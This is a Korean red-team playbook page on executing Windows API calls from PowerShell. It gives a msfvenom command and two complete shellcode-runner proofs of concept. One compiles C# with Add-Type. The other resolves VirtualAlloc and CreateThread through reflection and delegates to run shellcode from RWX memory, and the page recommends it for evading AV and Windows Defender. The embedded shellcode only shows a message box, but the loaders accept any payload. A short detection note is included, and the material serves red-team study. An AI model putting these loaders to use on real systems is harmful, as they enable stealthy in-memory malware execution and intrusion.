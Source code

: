 # 윈도우 API 실행

파워쉘에서는 윈도우 API를 실행할 수 있는 총 세 가지 방법이 있다.&#x20;

* Add-Type&#x20;
* .NET 어셈블리가 사용하는 윈도우 API를 찾아 실행하는 방법&#x20;
* 윈도우 API의 메모리상 주소를 알아내고, 함수 포인터를 만든 뒤, 다이내믹 Assembly, Module, Type, Method 과 Delegate를 이용해 이 함수 포인터로 윈도우 API를 실행하는 방법&#x20;

이 페이지에서는 1번과 3번에 대해서 알아본다.&#x20;

### Add-Type&#x20;

Add-Type 은 마이크로소프트사에서 공식적으로 지원하는 파워쉘에서 윈도우 API를 사용하는 방법 중 하나다. 더 정확하게 말하자면 파워쉘에서 C# 클래스를 작성한 뒤 메모리상에서 컴파일 하고 실행하는 함수 중 하나다.&#x20;

먼저 PoC 쉘코드로 사용할 쉘코드를 msfvenom을 이용해 제작한다.&#x20;

```
msfvenom -p windows/x64/messagebox text="stage0 shellcode" title="choi redteam playbook" -f ps1
```

다음은 파워쉘에서 윈도우 API를 이용해 MessageBox 쉘코드를 실행하는 PoC다.&#x20;

<details>

<summary>Invoke-Addtype.ps1</summary>

```powershell
$csharpCode = @"

using System;
using System.Runtime.InteropServices;

public class winAPIClass { 

    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32", CharSet = CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $csharpCode

[Byte[]] $buf = 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x3e,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x6f,0x48,0x1,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x3e,0x41,0x8b,0xc,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x3e,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,0x0,0x0,0x0,0x0,0x3e,0x48,0x8d,0x95,0xfe,0x0,0x0,0x0,0x3e,0x4c,0x8d,0x85,0xf,0x1,0x0,0x0,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x7,0xff,0xd5,0x48,0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x73,0x74,0x61,0x67,0x65,0x30,0x20,0x73,0x68,0x65,0x6c,0x6c,0x63,0x6f,0x64,0x65,0x0,0x63,0x68,0x6f,0x69,0x20,0x72,0x65,0x64,0x74,0x65,0x61,0x6d,0x20,0x70,0x6c,0x61,0x79,0x62,0x6f,0x6f,0x6b,0x0

# Page commit | reserve, RWX 
$pAlloc = [winAPIClass]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [winAPIClass]::CreateThread(0,0,$pAlloc,0,0,0)        
```

</details>

![](<../../.gitbook/assets/image (11) (1) (1).png>)

#### 대응 방안&#x20;

Add-Type이 실행될 때 C# 코드가 메모리상에서 컴파일 된다고 위에서 얘기했었다. 더 자세하게 얘기하자면 `csc.exe` 를 이용해 메모리상에서 C# 코드를 컴파일 하지만, 그 와중에 임시 파일을 디스크위에 작성한다.&#x20;

![](<../../.gitbook/assets/image (2).png>)

![](<../../.gitbook/assets/image (6) (2).png>)

2022년도 기준 `Add-Type` 를 이용한 파워쉘에서의 C# 코드 및 윈도우 API 실행은 유명한 TTP라 왠만한 AV/EDR 솔루션들 및 윈도우 디펜더는 이를 기본적으로 막는다.&#x20;

### Dynamic Method&#x20;

다음 코드들은 다음 두 개의 레퍼런스 - [Matt Graeber](https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-3/), [mez0](https://mez0.cc/posts/cobaltstrike-powershell-exec/), [DepthSecurity](https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs) 라는 분들의 코드 참고했다. 먼저 `LookUpFunction` 이라는 함수로 현 .NET AppDomain에 있는 어셈블리들 중 `System.dll` 닷넷 어셈블리를 찾고, 그 중 `UnsafeNativeMethod` 를 찾는다. 그 뒤, `GetMethods()` 함수를 통해 닷넷 어셈블리에서 `GetProcAddress` 와 `GetModuleHandle` 윈도우API를 찾는다. 그 뒤, 이들을 이용해 파라미터로 받아온 ModuleName과 FunctionName을 찾는다.&#x20;

```powershell
# Unmanaged DLL 이름과 winAPI함수 이름을 입력값으로 받고, 함수 포인터를 반환함. 
function LookUpFunc {
    Param($module, $funcName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}
```

&#x20;결국 `$fPointer = LookUpfunction Kernel32.dll VirtualAlloc` 과 같은 파워쉘 코드를 이용하면 `VirtualAlloc` 의 위치를 가르키는 함수 포인터를 생성할 수 있게 된다.&#x20;

함수 포인터가 있다고 해서 그것을 무작정 사용할 수는 없다. 함수 포인터가 가르키는 메모리는 어떻게 읽어야하는가? 몇개의 argument 가 있고, 어떤 타입의 argument 들이 있는가? 리턴하는 데이터 타입은? 에 대한 설명을 기반으로 함수 포인터를 실행해야 하는데, C#과 파워쉘에서는 이를 `Delegate` 을 통해서 해결한다.&#x20;

다음은 파워쉘에서 Delegate 을 만들고 그것을 기반으로 위에서 받아온 함수 포인터를 실행하는 코드다. 다이내믹 어셈블리, 모듈, 타입, 프로토타입, 매써드 등을 만든 뒤 DelegateType을 반환한다.&#x20;

```powershell
# 함수 시그니쳐와 반환값을 입력값으로 받고, DelegateType을 반환함. 
function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}
```

이 `getDelegateType` 함수는 다음과 같이 쓴다.&#x20;

```powershell
$pVirtualAlloc = LookUpFunc "kernel32.dll" "VirtualAlloc" 
$dtVirtualAlloc = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$VirtualAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($pVitualAlloc, $dtVirtualAlloc)
```

이를 기반으로 위 `Add-Type` 예시에서 만들었던 메시지 박스 쉘코드를 실행하는 파워쉘 페이로드를 만들면 다음과 같다.&#x20;

```powershell
# All credit to https://mez0.cc/posts/cobaltstrike-powershell-exec/
function LookUpFunc {
    Param($module, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))

    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}

# All credit to https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}

[Byte[]] $buf = 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x3e,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x6f,0x48,0x1,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x3e,0x41,0x8b,0xc,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x3e,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,0x0,0x0,0x0,0x0,0x3e,0x48,0x8d,0x95,0xfe,0x0,0x0,0x0,0x3e,0x4c,0x8d,0x85,0xf,0x1,0x0,0x0,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x7,0xff,0xd5,0x48,0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x73,0x74,0x61,0x67,0x65,0x30,0x20,0x73,0x68,0x65,0x6c,0x6c,0x63,0x6f,0x64,0x65,0x0,0x63,0x68,0x6f,0x69,0x20,0x72,0x65,0x64,0x74,0x65,0x61,0x6d,0x20,0x70,0x6c,0x61,0x79,0x62,0x6f,0x6f,0x6b,0x0
$pAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $pAlloc, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```

위 Dynamic Method 방법의 경우 C# 이 컴파일이 되는 것이 아니기 때문에 디스크상의 임시 파일이 쓰여질 일도 없다. 따라서 기본적인 AV나 디펜더를 우회하는데 좀 더 유리하다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/" %}

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-2/" %}

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-3/" %}

{% embed url="https://mez0.cc/posts/cobaltstrike-powershell-exec/" %}

{% embed url="https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs" %}
